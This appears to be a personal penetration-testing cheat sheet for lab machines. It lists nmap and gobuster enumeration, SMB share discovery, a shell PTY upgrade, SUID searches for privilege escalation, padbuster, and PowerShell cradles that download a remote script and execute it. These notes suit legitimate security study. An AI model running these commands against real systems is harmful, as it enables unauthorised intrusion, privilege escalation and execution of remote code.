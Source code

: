 # Penetration Testing Cheat Sheet
Captured learning notes

## Port scanning
```bash
nmap 10.10.10.150 -p-
nmap -sC -sV 10.10.150 -p80 -oA scan
```

## Web scan enumeration
```bash
dirhunt 10.10.10.150
gobuster -u 10.10.10.150 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Discover SMB shares
```bash
nmb lookup -A 10.10.10.150
smbclient -L \\fqdn -I 10.10.10.150 -N
```

## TTY/PTY
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Export $PATH
```bash
export PATH=​$PATH​:/bin:/sbin:/usr/bin:/usr/sbin:/usr/​local​/bin:/usr/​local​/sbin
```

## Privilege Escalation with SUID
[Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
```bash
find / -perm -u=s -type f 2>/dev/null
```
[Linux PrivEsc: Abusing SUID](https://www.gracefulsecurity.com/linux-privesc-abusing-suid/)
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

## Download Methods
### PowerShell
```powershell
IEX(New-Object Net.WebClient).downloadString('https://10.10.10.150:80/script.ps1')
powershell "(New-Object System.Net.WebClient).downloadFile('http://10.10.10.150:8000/file.exe','file.exe')"
```

## Padbuster
```bash
padbuster http://10.10.10.150 string # -cookies auth=string -encoding 0
```

## Decode/Decrypt
```bash
echo string | base64 --decode
```

## msfvenom
[https://netsec.ws/?p=331](Creating Metasploit Payloads)

## Connect to pop3
```bash
openssl s_client -connect 10.10.10.150:995
```

